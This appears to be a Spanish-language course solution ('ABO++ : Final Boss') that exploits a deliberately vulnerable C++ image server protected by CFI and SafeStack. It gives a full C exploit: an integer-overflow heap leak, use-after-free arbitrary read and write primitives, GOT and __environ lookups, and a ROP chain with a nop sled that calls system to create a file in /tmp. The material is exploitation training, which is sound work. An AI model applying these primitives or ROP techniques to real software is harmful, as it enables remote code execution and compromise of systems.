

# ABO++ : Final Boss


## Introducción

Esta es una posible solución al ejercicio final de la segunda parte de ABO++. La idea es poner en práctica un subconjunto de las diversas técnicas aprendidas para lograr ejecutar código arbitrario en un programa escrito en C++, protegido por todas las mitigaciones estudiadas en la primera parte de la guía, en adición a otras dos mitigaciones actualmente implementadas por Clang: CFI y SafeStack.

El siguiente procedimiento se probó en el siguiente entorno:

* Ubuntu 18.04.2 LTS (Desktop). Se puede verificar ejecutando `lsb_release -a`.
* GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27. Se puede verificar ejecutando `/lib/x86_64-linux-gnu/libc.so.6`.
* Clang version 8.0.0-svn356034-1~exp1~20190313093039.54 (branches/release_80).


El programa objetivo se describe en detalle en el [archivo introductorio](intro.md). Se asume familiaridad con el programa; aquí pasaremos directamente al desarrollo de los mecanismos de explotación.


## Desarrollo de primitivas

Comenzaremos desarrollando algunas primitivas que nos permitirán lograr la eventual ejecución de código arbitrario. Sabemos que el servidor está protegido por CFI y por SafeStack, por lo que será necesario desarrollar mecanismos de lectura y escritura arbitrarias.

Tal como fue el caso con el ejercicio [First-Boss](../../first-boss/first-boss.md), no entraremos en detalle sobre el procedimiento de búsqueda de vulnerabilidades, ya que en general involucra variadas técnicas de testing, análisis, prueba y error, y un estudio detallado del sistema objetivo. En este caso nos limitaremos simplemente a detallar las primitivas desarrolladas y cómo estas podrían ser utilizadas para lograr la eventual ejecución de código arbitrario.

> **Nota**: Para el procedimiento citado a continuación estaremos asumiendo un servidor en estado inicial. En el caso general, podría ser necesario ejecutar varios procedimientos previos o intermedios para llevar al proceso objetivo a un cierto estado conocido que haga al mecanismo de explotación más robusto y confiable. Al conjunto de técnicas para lograr esto se lo suele denominar "Heap Feng Shui", nombre utilizado aparentemente por primera vez en [1].


#### Leak inicial

Para desarrollar un mecanismo que nos permita leer el contenido del heap, veamos cómo se comporta el heap del servidor objetivo ante una cierta secuencia de solicitudes. Veamos primero el código de la función `handle_grayscale_make` en el archivo `imgserver-handler.cpp`:

```c
static void handle_grayscale_make(int client_socket) {
  img_header_t header;
  read(client_socket, &header, sizeof(img_header_t));

  unsigned short px_total = header.width*header.height;
  unsigned char *buffer = (unsigned char *) malloc(px_total);

  // Leemos los datos de la imagen y los guardamos en el buffer temporal.
  read(client_socket, buffer, px_total);

  // Creamos una nueva imagen y le asignamos un handle.
  Image *img = new GrayscaleImage(header.width, header.height, buffer);

  // Creamos un handle para la nueva imagen, para almacenarla en el mapa.
  int new_handle = next_handle++ % MAX_HANDLE_COUNT;

  // Eventualmente, el handle dará la vuelta, con lo cuál habrá que
  // asegurarse de que la imagen asociada al handle sea liberada si
  // ya estaba en uso.
  free_image(new_handle);

  // Guardamos el puntero a la nueva imagen en el mapa.
  img_map[new_handle] = img;

  // Enviamos el handle que asignamos a la imagen.
  send(client_socket, &new_handle, sizeof(int), MSG_NOSIGNAL);
}
```

Analicemos la secuencia de reservas y liberaciones. Dados enteros no signados `width` y `height`:

1. Se reserva un buffer en el heap de `width*height` bytes, a donde se copian los datos recibidos.
2. Se reserva un bloque pequeño en el heap para un nuevo objeto `GrayscaleImage`. A su vez, internamente se reserva espacio para otro buffer de tamaño `width*height`.
3. En caso de estar usando un handle previamente utilizado, se libera la imagen que podría haber estado asociada al mismo. Para este exploit, este mecanismo no será demasiado relevante.
4. Se reserva espacio en el heap para un nodo del mapa `img_map`.


Supongamos entonces que ejecutamos la siguiente secuencia de llamadas:

1. Ejecutamos `make_grayscale_image(w, h, d)` en el cliente, pasando `w` y `h` tal que `w*h` desborde un `unsigned short`. Esto causará que el primer buffer reservado por `handle_grayscale_make` del lado del servidor sea relativamente pequeño, mientras que el buffer reservado en la creación del objeto `GrayscaleImage` sea mucho más extenso, por tratar al producto como un `unsigned int`. Luego, cuando se copien  `unsigned int w*h` bytes desde el primer buffer al segundo, el resultado será que una fracción de la memoria del heap será copiada al buffer de datos del objeto imagen, incluyendo sus propios datos administrativos.
2. Ejecutamos `get_grayscale_image_bytes` pasando el handle recibido para concretar el leak de información. De este leak podemos extraer al menos la siguiente información:
   * Punteros al heap, lo cuál nos permitirá el eventual desarrollo primitivas de lectura y de escritura arbitrarias.
   * Punteros a tablas virtuales, con lo cuál podremos obtener la posición de la GOT y, si desarrollamos un mecanismo de lectura arbitraria, también la de libc, la del módulo de linker dinámico, la del puntero a las variables de entorno, y finalmente la del safe stack.


#### Lectura arbitraria

Luego de ejecutar el leak inicial, el esquema del heap debería ser esencialmente lo que vemos a continuación:



Luego, notando que existe una condición de UAF tal que las imágenes liberadas pueden seguir siendo utilizadas, podemos proceder con la siguiente secuencia de llamadas:

1. `free_grayscale_image(handle)` donde `handle` es el valor que retornó la llamada inicial a `make_grayscale_image`. Es decir, estamos liberando el objeto `GrayscaleImage`.
2. Ejecutamos `make_grayscale_image(w, h, d)` pasando `w` y `h` tal que el producto sea la longitud justa para sobrescribir los datos administrativos del objeto `GrayscaleImage`. Lo que ocurrirá es que `handle_grayscale_make` solicitará un bloque de memoria y recibirá efectivamente un puntero al que antes contenía al objeto `GrayscaleImage`. Los datos que enviemos sobrescribirán entonces los atributos de dicho objeto. Con esta escritura lo que haremos es dejar el puntero a tabla virtual sin modificar, pero modificaremos el puntero `buffer` para que apunte a donde queremos leer. También ajustamos `width` y `height` para que el producto sea igual a la cantidad de bytes que queremos leer.
3. Ejecutamos nuevamente  `get_grayscale_image_bytes` pasando el handle del objeto recién liberado, explotando el UAF y logrando leer a partir de la dirección que escribimos en `buffer`.

> **Nota**: para simplificar el procedimiento de explotación, se dejó adicionalmente un leak de memoria en `make_grayscale_image`. Este leak evita que el buffer intermedio sea liberado, lo cuál evita a su vez que los datos del mismo sean sobrescritos con datos administrativos del gestor de memoria, permitiéndonos así tomar control del objeto `GrayscaleImage` fácilmente.

Con este mecanismo podemos leer la GOT, obteniendo así las direcciones de `__libc_start_main` y `__libc_stack_end`. En base a la primera dirección ya podemos ubicar, por ejemplo, `mprotect` o `system`. La segunda es de hecho un puntero; mediante una segunda lectura podemos dereferenciarlo para ubicar el segmento donde se encuentra el puntero `__environ`, el cuál podemos leer finalmente mediante una tercera lectura para ubicar el safe stack. Habiendo ubicado el safe stack, resta entonces desarrollar un mecanismo de escritura arbitraria para tomar control del mismo y lograr así la ejecución de una secuencia de ROP.


#### Escritura arbitraria y ROP chain

Habiendo planteado la lectura arbitraria, la escritura arbitraria es muy simple. En vez ejecutar `get_grayscale_image_bytes` ejecutamos `set_grayscale_image_bytes`, logrando así escribir datos arbitrarios a partir de direcciones arbitrarias. Utilizamos la escritura arbitraria para escribir una secuencia de ROP en el safe stack. Dicha secuencia ejecutará la función `system` para crear un archivo vacío en el directorio `/tmp`.

Un detalle a tener en cuenta es que el safe stack implementa un pequeño grado de aleatorización, aunque la entropía es demasiado baja como para prevenir ataques. En el exploit estaremos usando un nopsled de gadgets `nop; ret` para mitigar la incerteza. Un nopsled como el que se muestra en el exploit debería ser ya muy efectivo, aunque siempre se pueden ejecutar lecturas adicionales para ubicar la dirección de retorno con más precisión.

Otro detalle a tener en cuenta es que la implementación de `memcpy` utiliza instrucciones que operan con registros xmm de 16 bytes; esto es muy común en operaciones que copian memoria. Estas instrucciones producen accesos inválidos si las direcciones de origen o destino no están alineadas a 16. En el exploit nos aseguramos de alinear la dirección a partir de la cuál escribir la cadena para hacer al exploit resistente ante esta condición.


## Exploit

A continuación se provee un posible exploit para el servidor objetivo; dicho exploit implementa las primitivas listadas arriba. El exploit está escrito en C. La ventaja de escribir el exploit en C es que trabajar con la memoria del proceso objetivo se vuelve muy sencillo. Hay que tener presentes las posibles diferencias de endianness, sin embargo. Ya que en este caso el objetivo y el exploit estarán siendo ejecutados en el mismo sistema, las cuestiones de arquitectura no serán un problema.

Primero, para que el exploit funcione correctamente, será necesario hacer una modificación en  el código de libimg. La biblioteca se ejecuta del lado del atacante, con lo cuál modificarla es efectivamente un recurso válido. El cambio que hay que hacer es muy simple: en la función `make_grayscale_image`, hay que reemplazar la línea

```c
unsigned int px_total = width*height;
```

por

```c
unsigned short px_total = width*height;
```

Esto evitará que el exploit se quede colgado al momento de explotar el integer overflow para leer el heap del servidor. Luego de hacer el cambio compilamos libimg. Podemos usar el script de compilación o podemos ejecutar el siguiente comando:

```bash
clang-8 -g libimg.c -shared -fPIC -o libimg.so
```


El código del exploit es entonces el que listamos a continuación. Cada uno de los pasos está comentado en detalle. Algo a tener en cuenta es que el exploit **asume un imgserver en estado inicial**. Robustecer el exploit para funcionar en el caso general, si es posible, queda de tarea para el lector. Una alternativa podría ser reservar una gran cantidad de bloques pequeños para consumir cualquier espacio fragmentado que haya podido quedar, en forma tal de que las reservas previas no afecten el correcto funcionamiento del exploit.

```c
// xploit.c

#include <stdint.h>
#include <stdlib.h>
#include <stdio.h>
#include <strings.h>
#include <string.h>

#include "libimg.h"


#define RESPONSE_BUFFER_LENGTH 65535

uint8_t response_buffer[RESPONSE_BUFFER_LENGTH];

//==============================================================================
// perform_initial_leak
//------------------------------------------------------------------------------

int perform_initial_leak() {
  uint8_t data[16];
  bzero((void*)&data, sizeof(data));

  /* Explotamos el integer overflow para filtrar el heap del objetivo.
   * 
   * El total es w*h = 65552. Este valor entra en un unsigned int,
   * pero no en un unsigned short, el cuál termina con valor 8.
   *
   * El resultado neto es un overread del lado del servidor;
   * los datos sobreleídos pueden ser luego recuperados con
   * get_grayscale_image_bytes.
   *
   */
  uint16_t w = 32776;
  uint16_t h = 2;
  uint32_t t = w*h;

  int handle = make_grayscale_image(h, w, (unsigned char*)&data);

  uint8_t *out_buffer;
  get_grayscale_image_bytes(handle, &out_buffer, &w, &h);

  memcpy(response_buffer, out_buffer, t);

  free(out_buffer);
  return handle;
}

//==============================================================================
// read_from
//------------------------------------------------------------------------------

void read_from(
    uint64_t target_address,
    uint16_t count,
    uint64_t vptr_GrayscaleImage,
    int uaf_handle) {

  /* Liberamos el handle. Debe ser tal que la próxima reserva por un bloque
   * de 0x18 bytes sea efectivamente designada a la dirección del objeto
   * que estamos liberando. Es por esto que el exploit asume un servidor en 
   * estado inicial; para hacer al exploit funcionar en el caso general, 
   * sería necesario asegurarse de que la próxima solicitud por un bloque
   * de 0x18 bytes devuelva efectivamente aquel perteneciente al objeto
   * identificado por uaf_handle.
   *
   */
  free_grayscale_image(uaf_handle);
    
  /* Del lado del servidor, width y height se almacenan contiguos
   * como enteros de 2 bytes. En la línea de 8 bytes, los 4 más bajos
   * son nulos. La siguiente operación construye una secuencia de 8
   * bytes tal que, al reemplazar los datos del objeto GrayscaleImage,
   * width sea igual a count y height sea igual a 1, con lo cuál el
   * producto será igual a count, permitiéndonos leer count bytes.
   *
   */
  uint64_t c = (((uint64_t)count) << 16) + 1;

  /* La siguiente secuencia de 18 bytes sobrescribirá los datos del
   * objeto GrayscaleImage que hemos liberado. En otro caso, controlar 
   * el vptr nos daría probablemente mucha flexibilidad. Debido a CFI, 
   * sin embargo, para este exploit nos debemos limitar a trabajar solo
   * con operaciones legales sobre el objeto, si bien podemos modificar
   * sus atributos para controlar esas operaciones como nos resulte
   * conveniente.
   *
   */
  uint64_t input[] = {
    vptr_GrayscaleImage, // vptr
    c,                   // 0x00000000 | width (2 bytes) | height (2 bytes)
    target_address
  };

  /* Creamos una nueva imagen del lado del servidor. La cantidad de bytes
   * es para que la escritura del primer buffer se de precisamente a partir
   * de lo que antes era el objeto GrayscaleImage en sí.
   *
   */
  make_grayscale_image(sizeof(input), 1, (uint8_t *)&input);

  /* Procedemos leyendo el buffer de datos del objeto.
   *
   */
  uint16_t w;
  uint16_t h;

  uint8_t *out_buffer;
  get_grayscale_image_bytes(uaf_handle, &out_buffer, &w, &h);
  memcpy(response_buffer, out_buffer, count);
  free(out_buffer);
}

//==============================================================================
// write_what_where
//------------------------------------------------------------------------------

void write_what_where(
    uint64_t target_address,
    uint8_t *data,
    uint16_t data_length,
    uint64_t vptr_GrayscaleImage,
    int uaf_handle) {

  /* Comenzamos esencialmente igual que en la lectura arbitraria,
   * liberando la imagen identificada por uaf_handle para sobrescribir
   * sus datos.
   *
   */
  free_grayscale_image(uaf_handle);
    
  /* Nuevamente, procederemos a sobrescribir los datos de un objeto
   * GrayscaleImage mediante la reserva de un bloque de 0x18 bytes.
   *
   */
  uint64_t c = (((uint64_t)data_length) << 16) + 1;

  uint64_t input[] = {
    vptr_GrayscaleImage, // vptr
    c,                   // 0x00000000 | width (2 bytes) | height (2 bytes)
    target_address
  };

  /* Modificamos los datos del viejo objeto GrayscaleImage identificado
   * por el handle uaf_handle.
   *
   */
  make_grayscale_image(sizeof(input), 1, (uint8_t *)&input);

  /* Ejecutamos la escritura.
   *
   */
  set_grayscale_image_bytes(uaf_handle, data, data_length);
}

//==============================================================================
// main
//------------------------------------------------------------------------------

int main(int argc, char **argv) {
  img_init();

  printf("[*] Ejecutando leak inicial...\n");

  int uaf_handle = perform_initial_leak();

  /* Obtenemos la dirección de la vtable real de GrayscaleImage.
   *
   */
  uint64_t vptr_GrayscaleImage = ((uint64_t*)response_buffer)[4];

  /* Obtenemos la dirección base de la GOT. Con gdb determinamos que
   * se encuentra 0x2b0 bytes por encima de la vtable.
   *
   */
  uint64_t got_base = vptr_GrayscaleImage + 0x2b0;

  printf("[*] ... vptr_GrayscaleImage:\n");
  printf("[-] ... 0x%lx\n", vptr_GrayscaleImage);
  printf("[-] \n");

  printf("[*] ... got_base:\n");
  printf("[-] ... 0x%lx\n", got_base);
  printf("[-] \n");

  /* Leemos las direcciones de __libc_start_main y de __libc_stack_end,
   * la primera en libc.so.6, la segunda en ld-linux-x86-64.so.2,
   * ambas oportunamente contiguas en la GOT.
   *
   */
  printf("[*] Leyendo GOT...\n");

  read_from(got_base + 0x188, 16, vptr_GrayscaleImage, uaf_handle);
    
  /* Extraemos las direcciones relevantes del dump y calculamos
   * la dirección de system, la cuál estaremos usando luego.
   *
   */
  uint64_t addr_libc_start_main = ((uint64_t*)response_buffer)[0];
  uint64_t addr_libc_stack_end = ((uint64_t*)response_buffer)[1];

  uint64_t addr_system = addr_libc_start_main + 0x2d990;

  printf("[*] ... addr_libc_start_main:\n");
  printf("[-] ... 0x%lx\n", addr_libc_start_main);
  printf("[-] \n");

  printf("[*] ... addr_system:\n");
  printf("[-] ... 0x%lx\n", addr_system);
  printf("[-] \n");

  printf("[*] ... addr_libc_stack_end:\n");
  printf("[-] ... 0x%lx\n", addr_libc_stack_end);
  printf("[-] \n");
  
  /* Ejecutamos algunas lecturas adicionales para obtener las direcciones
   * de __environ y eventualmente la del inicio de las variables de entorno
   * en el safe stack.
   *
   */
  printf("[*] Leyendo *addr_libc_stack_end...\n");

  read_from(addr_libc_stack_end, 8, vptr_GrayscaleImage, uaf_handle);
    
  addr_libc_stack_end = ((uint64_t*)response_buffer)[0];
  uint64_t addr_environ = addr_libc_stack_end + 0x18;

  printf("[*] ... addr_environ:\n");
  printf("[-] ... 0x%lx\n", addr_environ);
  printf("[-] \n");

  printf("[*] Leyendo __environ...\n");

  read_from(addr_environ, 8, vptr_GrayscaleImage, uaf_handle);
  uint64_t addr_ss_env = ((uint64_t*)response_buffer)[0];

  printf("[*] ... addr_ss_env:\n");
  printf("[-] ... 0x%lx\n", addr_ss_env);
  printf("[-] \n");


  /* El safe stack tiene algo de entropía interna, aunque no es suficiente
   * para prevenir un ataque exitoso. En vez de escribir a partir de una
   * dirección de retorno particular, lo que haremos es llenar el safe
   * stack de direcciones de gadgets nop hasta el inicio de las variables
   * de entorno. Por mera inspección en gdb, notamos que la distancia desde 
   * la dirección de retorno de handle_request hasta addr_ss_env es 
   * inferior a 0x2000, al menos usualmente, con lo cuál un nopsled de 
   * 0xff00 bytes debería ser más que suficiente para hacer al exploit 
   * confiable. El tamaño del safe stack es mucho mayor a 0xff00 bytes, 
   * con lo cuál la escritura a partir de addr_ss_env - sizeof_nopsled 
   * debería ser segura.
   *
   * Nótese que nuestra primitiva de escritura está limitada a 0xffff
   * bytes, con lo cuál debemos dejar algo de espacio adicional para
   * la cadena de ROP, la cuál ocupará unos 0x40 bytes. Alternativamente,
   * deberíamos ejecutar la primitiva de escritura varias veces
   * para lograr copiar la totalidad de los datos.
   *
   */
  uint64_t sizeof_nopsled = 0xff00;
  uint64_t addr_chain = addr_ss_env - sizeof_nopsled;

  /* Resulta que memcpy usa instrucciones xmm que fallan si la dirección de
   * destino no está alineada a 16 bytes. Para resolver el problema, alineamos
   * la dirección a partir de la cuál escribir a 16. Ya que estaremos usando
   * un nopsled, la precisión no es demasiado importante.
   *
   */
  addr_chain >>= 8; // Limpiamos los 8 bits menos significativos.
  addr_chain <<= 8;

  /* Preparamos el payload de la cadena de ROP. Se trata de una llamada
   * a system que creará un archivo vacío llamado you-win.txt en /tmp, y 
   * luego finalizará la ejecución llamando a exit.
   *
   */
  uint64_t payload[] = {
    addr_system - 0x2dee1,                // pop rdi; ret
    addr_chain + sizeof_nopsled + 0x20,   // &"touch /tmp/you-win.txt"
    addr_system,
    addr_system - 0xc320,                 // &exit
    0,                                    // "touch /tmp/you-win.txt", ver abajo
    0,
    0,
    0,
  };

  // Copiamos el string del comando a ejecutar al final de la cadena de ROP.
  strcpy((char *)&payload[4], "touch /tmp/you-win.txt");

  // Creamos el nopsled.
  uint64_t I = sizeof_nopsled/8;
  uint64_t chain[I + sizeof(payload)/8];

  for (uint64_t i = 0; i < I; i++) {
    chain[i] = addr_system - 0x22961; // nop; ret
  }

  // Copiamos la cadena al final del nopsled.
  memcpy((void*)&chain[I], (void*)&payload, sizeof(payload));

  printf("[*] Ejecutando escritura arbitraria para inyectar ROP...\n");
  uint8_t *chain_buff = (uint8_t*)&chain;
  write_what_where(addr_chain, chain_buff, sizeof(chain), vptr_GrayscaleImage, uaf_handle);

  printf("[*] Hecho, el payload debería haber sido inyectado, revisar /tmp.\n");
  printf("[-] \n");
    
  return 0;
}
```

Compilamos el exploit ejecutando

```bash
clang-8 xploit.c -g -L. -limg -o xploit
```

Debemos recordar ejecutar el programa definiendo previamente la variable `LD_LIBRARY_PATH` que indica dónde encontrar la biblioteca libimg. El siguiente GIF muestra el exploit en funcionamiento:


## Conclusión

En esta segunda parte de la guía pudimos ver como, a pesar de la incorporación de CFI y de SafeStack, las técnicas de explotación que estudiamos en la primera parte siguen siendo suficientes para lograr compromiso total de un proceso vulnerable. Hemos estudiado, adicionalmente, la explotación de programas escritos en C++, y hemos también adquirido destreza corrompiendo memoria en el heap, lo cuál puede ser más complicado que corromper memoria en el stack debido al mayor grado de variabilidad. En cualquier caso, esto solo implica que las vías de explotación pueden ir más allá de los desbordes de buffer en el stack, y que los atacantes pueden tener muchas opciones al momento de llevar a cabo un ataque.


## Referencias

[1] Sotirov, Alexander (2007). *Heap Feng Shui in JavaScript*, Black Hat Europe 2007.

